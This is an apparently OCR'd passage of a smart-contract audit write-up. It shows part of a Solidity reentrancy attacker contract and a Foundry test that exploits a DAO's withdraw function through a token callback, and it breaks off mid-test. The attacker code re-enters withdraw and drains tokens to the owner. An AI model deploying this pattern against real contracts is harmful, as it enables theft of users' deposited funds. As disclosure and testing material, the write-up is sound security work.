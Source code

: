 ```solidity
    /// @notice ERC20 tokensReceived hook to re-enter withdraw
    function tokensReceived() external {
        if (attackCount < maxAttacks) {
            attackCount++;
            dao.withdraw();
        }
    }

    /// @notice Drain stolen tokens back to owner
    function drain() external {
        // require(msg.sender == owner, "only owner");
        token.transfer(owner, token.balanceOf(address(this)));
    }

    /// @notice ERC721 receiver hook (no-op)
    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external pure returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

#### 3.3 the test function

```solidity
function testWithdrawReentrancyExploit() public {
    // Deploy custom ERC20 with callback
    ERC20WithCallback evilToken = new ERC20WithCallback("EvilToken", "EVL");

    // Deploy NFT
    MembershipNFT evilNFT = new MembershipNFT("EvilMembership", "EVLM");

    // Deploy DAO with evil token
    address;
    PillarDAO evilDAO = new PillarDAO(
        address(evilToken),
        stakeAmount,
        address(evilNFT),
        preExistingMembers
    );
    evilNFT.setVaultAddress(address(evilDAO));

    // Deploy attacker contract
    uint256 maxAttacks = 3;
    ReentrancyAttacker attacker = new ReentrancyAttacker(
        address(evilDAO),
        address(evilNFT),
        address(evilToken),
        maxAttacks
    );

    // Fund attacker with tokens
    evilToken.mint(address(attacker), stakeAmount);

    // Fund DAO with extra tokens (simulate other users' deposits)
    evilToken.mint(address(evilDAO), 20000 ether); // Now DAO has 20,000 ether

    // Attacker deposits
    vm.prank(address(attacker));
    attacker.attackDeposit(stakeAmount);
```